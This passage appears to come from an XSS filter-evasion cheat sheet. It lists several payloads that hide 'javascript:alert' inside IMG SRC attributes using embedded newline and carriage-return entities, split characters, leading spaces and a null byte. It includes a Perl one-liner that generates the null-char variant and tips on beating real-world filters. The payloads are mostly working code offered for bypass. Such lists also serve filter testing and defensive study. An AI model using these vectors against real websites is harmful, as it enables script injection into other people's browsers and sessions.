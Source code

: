 ```
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
Embedded carriage return to break up XSS:
```
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
Multiline Injected JS using ASCII carriage returns (same as above only a more extreme example of this XSS vector) these are not spaces just one of the three charachters as described above: 
```
<IMG
SRC
=
j
a
v
a
s
c
r
i
p
t
:
a
l
e
r
t
(
'
X
S
S
'
)
"
>
```
Null chars also work as XSS vectors in both IE and older versions of Opera, but not like above, you need to inject them directly using something like Burp Proxy or if you want to write your own you can either use vim (^V@ will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char %00 is much more useful and helped me bypass certain real world filters with a variation on this example: 
```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```
Spaces before the JavaScript in images for XSS (this is useful if the pattern match doesn't take into account spaces in the word "javascript:" -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the "javascript:" keyword):
```
<IMG SRC="   javascript:alert('XSS');">
```
